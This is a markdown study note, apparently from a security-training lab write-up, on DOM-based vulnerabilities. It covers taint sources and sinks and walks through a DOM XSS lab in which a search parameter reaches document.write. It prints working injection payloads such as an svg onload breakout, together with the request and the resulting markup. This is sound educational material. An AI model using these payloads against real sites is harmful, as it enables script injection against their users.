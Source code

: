 # DOM-based Vulns

</br>

## Taint flow - sources to sinks

DOM-based vulnerabilities arise when a website passes data from a source to a sink, which then handles the data in an unsafe way in the context of the client's session.

The most common source is the URL, which is typically accessed with the `location` object. An attacker can construct a link to send a victim to a vulnerable page with a payload in the query string and fragment portions of the URL.

```js
goto = location.hash.slice(1) 
if (goto.startsWith('https:')) {   
location = goto; 
}
```

</br>

## Common sources

The following are typical sources that can be used to exploit a variety of taint-flow vulnerabilities:

```
document.URL 
document.documentURI 
document.URLUnencoded
document.baseURI
location document.cookie 
document.referrer
window.name 
history.pushState
history.replaceState 
localStorage 
sessionStorage
IndexedDB (mozIndexedDB,
webkitIndexedDB, msIndexedDB) 
Database
```

</nr>

## DOM-based XSS
### Exploiting DOM XSS with different sources and sinks

In principle, a website is vulnerable to DOM-based cross-site scripting if there is an executable path via which data can propagate from source to sink. In practice, different sources and sinks have differing properties and behavior that can affect exploitability, and determine what techniques are necessary. 
Additionally, the website's scripts might perform validation or other processing of data that must be accommodated when attempting to exploit a vulnerability. There are a variety of sinks that are relevant to DOM-based vulnerabilities. Please refer to the [list](https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities) below for details.

The `document.write` sink works with `script` elements, so you can use a simple payload, such as the one below:

```js
document.write('... <script>alert(document.domain)</script> ...');
```

</br>

## DOM XSS in ```document.write```  Sink using `location.search`

A DOM-based XSS is in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the `alert` function.

The search term is processed by this JS
```js
 <script>
    function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
	var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
     trackSearch(query);
                        }
</script>
```

</br>

**I searched for `phone`**
and the search term lands inside a set of `<img src`  attribute 
```html
<img src="/resources/images/tracker.gif?searchTerms=phone">
```

</br>

_**Therefore, need to Break out of the `img` attribute by searching for:**_
```html
"><svg onload=alert(1)>
```

- Request
```http
GET /?search="><svg onload=alert(1)> 
```

- Inspect source code in Response
```html
<img src="/resources/images/tracker.gif?searchTerms=">
<svg onload="alert(1)">"&gt;
```
